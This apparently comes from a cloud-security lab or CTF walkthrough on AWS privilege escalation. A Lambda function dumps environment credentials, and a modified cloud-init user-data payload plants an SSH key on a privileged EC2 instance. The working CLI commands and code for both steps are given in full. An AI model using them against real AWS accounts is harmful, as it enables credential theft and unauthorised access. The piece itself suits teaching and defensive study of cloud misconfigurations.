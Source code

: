 A Lambda function can be deployed with the following code &rarr;

```python
import os

def lambda_handler(event, context):
    return dict(os.environ)
```

Commands to execute for the Lambda attack are as follows &rarr; 

```bash
zip lambda_function.zip lambda_function.py
# deploy function
awsn lambda create-function --function-name attackfunction --runtime python3.8 --role arn:aws:iam::<ACCID>:role/lambda_ec2 --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.zip --profile double_tap_xsdf
# invoke function
awsn lambda invoke --function-name attackfunction --profile double_tap_xsdf outputfile
# get credentials
cat outputfile | jq
```

With these credentials, access to the instance that has the `ec2_privileged` role is needed. The instance has an open port 22, but it needs an SSH key. User data does not run after starting a stopped instance unless it is used as a `cloud-init` script, which can be defined as the following &rarr;

```yml
#cloud-config
cloud_final_modules:
  - [users-groups,always]
users:
  - name: ec2-user
    ssh-authorized-keys:
      - ssh-ed25519 keydatakeydatakeydatakeydatakeydatakeydata user@host
```

The key used can be generated as &rarr;

```bash
ssh-keygen -t ed25519 -b 2048 # save as ec2_key
```

The YAML content can be stored in a file `userdatanormal.txt` and then converted to base64 with &rarr;

```bash
base64 userdatanormal.txt > userdataencoded.txt
```

Then, the following can be used to deploy a key using the session of `lambda_ec2` &rarr;

```bash
awsn ec2 stop-instances --instance-id i-0hshshshshhshs --region us-west-2 --profile lambda_ec2
awsn ec2 modify-instance-attribute --instance-id i-0hshshshshhshs --attribute userData --value file:userdataencoded.txt --region us-west-2 --profile lambda_ec2
awsn ec2 start-instances --instance-id i-0hshshshshhshs --region us-west-2 --profile lambda_ec2
```
